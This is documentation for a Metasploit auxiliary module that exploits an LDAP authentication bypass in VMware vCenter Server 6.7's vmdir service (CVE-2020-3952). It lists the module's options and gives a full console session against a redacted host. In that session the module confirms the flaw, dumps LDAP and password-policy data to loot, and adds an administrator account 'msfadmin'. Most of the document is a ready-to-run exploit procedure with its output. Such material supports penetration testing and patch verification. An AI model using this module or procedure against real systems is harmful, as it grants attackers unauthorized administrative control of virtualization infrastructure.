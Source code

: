 ## Vulnerable Application

### Description

This module bypasses LDAP authentication in VMware vCenter Server's
vmdir service to add an arbitrary administrator user. Version 6.7
prior to the 6.7U3f update is vulnerable.

### Setup

Tested in the wild. No setup notes available at this time.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Actions

### Add

Add an admin user to the target.

## Options

### USERNAME

Set this to the username for the new admin user.

### PASSWORD

Set this to the password for the new admin user.

### ConnectTimeout

You may configure the timeout for LDAP connects if necessary. The
default is 10.0 seconds and should be more than sufficient.

## Scenarios

### VMware vCenter Server 6.7

```
msf5 > use auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > options

Module options (auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Password of admin user to add
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     389              yes       The target port
   USERNAME                   no        Username of admin user to add


Auxiliary action:

   Name  Description
   ----  -----------
   Add   Add an admin user


msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > set rhosts [redacted]
rhosts => [redacted]
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > set username msfadmin
username => msfadmin
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > set password msfadmin
password => msfadmin
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > run
[*] Running module against [redacted]

[*] Using auxiliary/gather/vmware_vcenter_vmdir_ldap as check
[*] Discovering base DN automatically
[*] Searching root DSE for base DN
dn: cn=DSE Root
namingcontexts: dc=vsphere,dc=local
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.1
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.2
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.3
supportedcontrol: 1.2.840.113556.1.4.417
supportedcontrol: 1.2.840.113556.1.4.319
supportedldapversion: 3
supportedsaslmechanisms: GSSAPI

[+] Discovered base DN: dc=vsphere,dc=local
[*] Dumping LDAP data from vmdir service at [redacted]:389
[+] [redacted]:389 is vulnerable to CVE-2020-3952
[*] Storing LDAP data in loot
[+] Saved LDAP data to /Users/wvu/.msf4/loot/20200417002255_default_[redacted]_VMwarevCenterS_975097.txt
[*] Password and lockout policy:
dn: cn=password and lockout policy,dc=vsphere,dc=local
cn: password and lockout policy
enabled: TRUE
ntsecuritydescriptor:: [redacted]
objectclass: top
objectclass: vmwLockoutPolicy
objectclass: vmwPasswordPolicy
objectclass: vmwPolicy
vmwpasswordchangeautounlockintervalsec: [redacted]
vmwpasswordchangefailedattemptintervalsec: [redacted]
vmwpasswordchangemaxfailedattempts: [redacted]
vmwpasswordlifetimedays: [redacted]
vmwpasswordmaxidenticaladjacentchars: [redacted]
vmwpasswordmaxlength: [redacted]
vmwpasswordminalphabeticcount: [redacted]
vmwpasswordminlength: [redacted]
vmwpasswordminlowercasecount: [redacted]
vmwpasswordminnumericcount: [redacted]
vmwpasswordminspecialcharcount: [redacted]
vmwpasswordminuppercasecount: [redacted]
vmwpasswordprohibitedpreviouscount: [redacted]

[*] Bypassing LDAP auth in vmdir service at [redacted]:389
[*] Adding admin user msfadmin with password msfadmin
[+] Added user msfadmin, so auth bypass was successful!
[+] Added user msfadmin to admin group
[*] Auxiliary module execution completed
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) >
```

